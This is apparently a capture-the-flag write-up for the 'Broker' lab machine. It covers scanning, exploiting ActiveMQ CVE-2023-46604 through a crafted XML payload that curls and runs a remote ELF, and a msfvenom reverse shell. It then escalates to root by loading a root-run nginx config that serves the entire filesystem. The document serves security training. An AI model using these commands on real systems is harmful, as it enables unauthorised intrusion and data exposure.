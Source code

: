 # Broker

### Typology:

_Linux_

We start by enumerating the target ports:
```bash
nmap -sC -sV -p- --min-rate=2000 10.10.11.243

PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp    open  http     nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-title: Error 401 Unauthorized
5672/tcp  open  amqp?
|_amqp-info: ERROR: AQMP:handshake expected header (1) frame, but was 65
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     AMQP
|     AMQP
|     amqp:decode-error
|_    7Connection from client using unsupported AMQP attempted
8161/tcp  open  http     Jetty 9.4.39.v20210325
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-server-header: Jetty(9.4.39.v20210325)
|_http-title: Error 401 Unauthorized
61616/tcp open  apachemq ActiveMQ OpenWire transport
| fingerprint-strings: 
|   NULL: 
|     ActiveMQ
|     TcpNoDelayEnabled
|     SizePrefixDisabled
|     CacheSize
|     ProviderName 
|     ActiveMQ
|     StackTraceEnabled
|     PlatformDetails 
|     Java
|     CacheEnabled
|     TightEncodingEnabled
|     MaxFrameSize
|     MaxInactivityDuration
|     MaxInactivityDurationInitalDelay
|     ProviderVersion 
|_    5.15.15
```
Summarize:

- _22 SSH port_

- _80 nginx webserver, we have 401 Unauthorized_

- _5672 AMQP we can't connect it_

- _8161 sames as 80_

- _61616 ActiveMQ_

The only way to chose is the 61616 port; a quick search about the version leaks out a CVE, this [one](https://www.prio-n.com/blog/cve-2023-46604-attacking-defending-ActiveMQ) an RCE by a crafted XML file served on a local HTTP webserver, some links below the previous one I find a [POC](https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ), follow this commands:
```bash
git clone https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ.git
cd CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ
go build
```
Now the file __"poc-linux.xml"__ must be modified at line 12:
```xml
<value>curl -s -o test.elf http://<your_ip_from_vpn>:8001/test.elf; chmod +x ./test.elf; ./test.elf</value>
```
Setup a listener:
```bash
msfconsole -q -x "use multi/handler; set payload linux/x64/shell_reverse_tcp; set lhost 10.96.0.24; set lport 4444; exploit"
```
Generate the msfpayload and run the python webserver:
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST={Your_Listener_IP/Host} LPORT={Your_Listener_Port} -f elf -o test.elf

python3 -m http.server 8001
```
Then in another tab we navigate in the CVE folder and we run the following command:
```bash
./ActiveMQ-RCE -i <target ip> -u http://10.96.0.24:8001
```
we have the first shell as user and we can retrieve the user flag, it's time to enumerate

The command `sudo -l` reveals a juicy information:
```bash
(ALL : ALL) NOPASSWD: /usr/sbin/nginx
```
we can load our own configuration file, I opted for a simple configuration where at the port 1337 I can see all root folder from the web:
```bash
user root;
worker_processes auto;

events {
    worker_connections 1024;
}

http {
    server {
        listen 1337;
        root /;

        location / {
            autoindex on;
        }
    }
}

sudo nginx -c /tmp/fake.conf
```
Visit the following URL: __"http://10.10.11.243:1337/"__ will give an access to the entire filesystem and we can retrieve the root flag
